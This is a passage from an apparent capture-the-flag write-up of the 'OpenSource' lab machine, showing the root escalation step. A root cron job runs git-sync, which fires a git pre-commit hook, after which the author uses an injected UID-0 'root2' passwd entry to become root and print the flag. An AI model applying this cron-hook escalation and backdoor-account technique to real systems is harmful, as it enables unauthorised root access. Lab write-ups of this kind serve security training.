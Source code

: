 Created a file in order to force **/usr/local/bin/git-sync** to execute git:

```bash
dev01@opensource:~$ echo '' > /home/dev01/void
```

Escalated to root:

```bash
...
2022/05/23 16:47:01 CMD: UID=0    PID=26733  | /bin/bash /usr/local/bin/git-sync
2022/05/23 16:47:01 CMD: UID=0    PID=26732  | /bin/sh -c /usr/local/bin/git-sync
2022/05/23 16:47:01 CMD: UID=0    PID=26731  | /usr/sbin/CRON -f
2022/05/23 16:47:01 CMD: UID=0    PID=26736  | git add .
2022/05/23 16:47:01 CMD: UID=0    PID=26737  | git commit -m Backup for 2022-05-23
2022/05/23 16:47:01 CMD: UID=0    PID=26739  |
2022/05/23 16:47:01 CMD: UID=0    PID=26738  | /bin/bash .git/hooks/pre-commit
2022/05/23 16:47:01 CMD: UID=0    PID=26740  | /bin/bash /usr/local/bin/git-sync
2022/05/23 16:47:01 CMD: UID=0    PID=26741  | /usr/lib/git-core/git-remote-http origin http://opensource.htb:3000/dev01/home-backup.git
...

dev01@opensource:~$ cat /etc/passwd | grep root2
root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash

dev01@opensource:~$ su root2
Password:
root@opensource:/home/dev01# id; hostname; cat /root/root.txt
uid=0(root) gid=0(root) groups=0(root)
opensource
d0216d25a9d00f8ea03f37bea888f364
```

![OpenSource%20f45f07afdacd4cfaab930db6a8f3f493](../../zzz_res/attachments/OpenSource%20f45f07afdacd4cfaab930db6a8f3f493%2014.png)

# Trophy
